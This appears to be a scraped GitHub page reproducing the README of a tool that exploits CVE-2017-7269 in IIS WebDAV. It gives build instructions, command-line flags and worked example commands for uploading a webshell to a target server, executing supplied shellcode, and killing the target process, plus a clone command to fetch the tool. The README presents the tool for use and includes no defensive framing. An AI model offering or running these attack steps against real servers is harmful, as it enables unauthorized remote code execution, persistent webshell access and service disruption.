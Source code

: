 # cve-2017-7269-tool

CVE-2017-7269 to webshell or shellcode loader

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/zcgonvh](https://github.com/zcgonvh) |
| Url      | [https://github.com/zcgonvh/cve-2017-7269-tool](https://github.com/zcgonvh/cve-2017-7269-tool)                                               |
| Stars    | 85                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# cve-2017-7269 webshell and shellcode tool

### build

	csc cve-2017-7269.cs

### usage

	CVE-2017-7269 <url> [parms]

	Header:
	-h <host>       set host for [If] header
	-p <port>       set port for [If] header
	-s <scheme>     set scheme for [If] header
	-l <length>     length of physical path
	
	WebShell:
	-w <webshell>   upload webshell to server
	-wp <shellpath> path of webshell to save
	
	ShellCode:
	-c <shellcode>  execute the shellcode
	
	Misc:
	-t      test vulnerable only.
	-e      exit process when getshell or test
	-k      kill target(equals -e and -t)

### example

	CVE-2017-7269 http://192.168.1.1/
	CVE-2017-7269 http://192.168.1.1/ -l 19
	CVE-2017-7269 http://host.remote/ -h test.local -p 8080 -s https
	CVE-2017-7269 http://192.168.1.1/ -e -l 22 -w evil.asp -wp /webshell.asp
	CVE-2017-7269 http://192.168.1.1/ -c shellcode.bin





## Get the content

```
git clone https://github.com/zcgonvh/cve-2017-7269-tool
cd cve-2017-7269-tool
```

{% embed url="https://github.com/zcgonvh/cve-2017-7269-tool" %}

<figure><img src="https://avatars.githubusercontent.com/u/25787677?v=4" alt=""><figcaption><p>zcgonvh</p></figcaption></figure>

